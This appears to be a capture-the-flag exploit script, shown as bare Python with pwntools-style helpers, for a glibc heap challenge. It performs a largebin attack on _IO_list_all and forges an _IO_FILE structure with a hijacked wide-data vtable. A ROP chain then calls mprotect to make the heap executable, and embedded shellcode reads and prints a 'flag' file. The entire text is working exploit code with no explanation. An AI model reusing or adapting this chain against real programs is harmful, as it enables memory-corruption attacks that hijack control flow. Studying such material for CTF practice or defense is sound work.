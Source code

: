 ```python
edit(0,0x300,b'a'*0x200 + p64(0) + p64(0x4a1) + p64(libc_addr)*2 + p64(heap_addr) + p64(libc_base + libc.sym['_IO_list_all'] - 0x20))
add(0x500,b'g') # 5

fake_IO_FILE = heap_base + 0x002b60
shellcode = b'hflagH\x89\xe71\xf6j\x02X\x0f\x05H\x89\xc7H\x89\xe6\xba\x00\x01\x00\x001\xc0\x0f\x05\xbf\x01\x00\x00\x00H\x89\xe6j\x01X\x0f\x05'

f = flat({
    0x28: 1, # _IO_write_ptr
    0x38: fake_IO_FILE + 0x280, # _IO_buf_base
    0xa0: fake_IO_FILE + 0xe0, # _wide_data
    0xd8: libc_base + 0x2170c0, #_vtables
    }, filler = b'\x00')

data = bytes(f).ljust(0xe0, b"\x00")

data += b"\x00" * 0xe0
data += p64(fake_IO_FILE + 0x200)
data = data.ljust(0x200, b"\x00")

data += b"\x00" * 0x68
data += p64(libc_base + 0x15d48a)   
data = data.ljust(0x280, b"\x00")

data += p64(fake_IO_FILE + 0x2a0)
data += p64(0)
data += p64(libc_base + 0x162f64)
data = data.ljust(0x2a0, b"\x00")

data += p64(0)
data += p64(fake_IO_FILE + 0x2e0)
data += p64(libc_base + 0x167420) + b"\x00"*0x20
data += p64(fake_IO_FILE + 0x2a0)
data = data.ljust(0x2e0, b"\x00")

data += p64(libc_base + 0xd2ba5)+0x18*b"\x00"
data += p64(libc_base + 0x5a120)+0x8*b"\x00" # mov_rsp_rdx

data += p64(libc_base + 0x2a3e5) # pop_rdi
data += p64(heap_base)
data += p64(libc_base + 0x2be51) # pop_rsi
data += p64(0x10000)
data += p64(libc_base + 0x904a9) # pop_rdx_rbx
data += p64(7)
data += p64(0)
data += p64(libc_base + libc.sym['mprotect'])
data += p64(heap_base + 0x3000)

data = data.ljust(0x360,b'\x00')
edit(2,0x500,b'a'*0x1a0+data)
edit(4,0x100,shellcode)

Exit()

p.interactive()

```
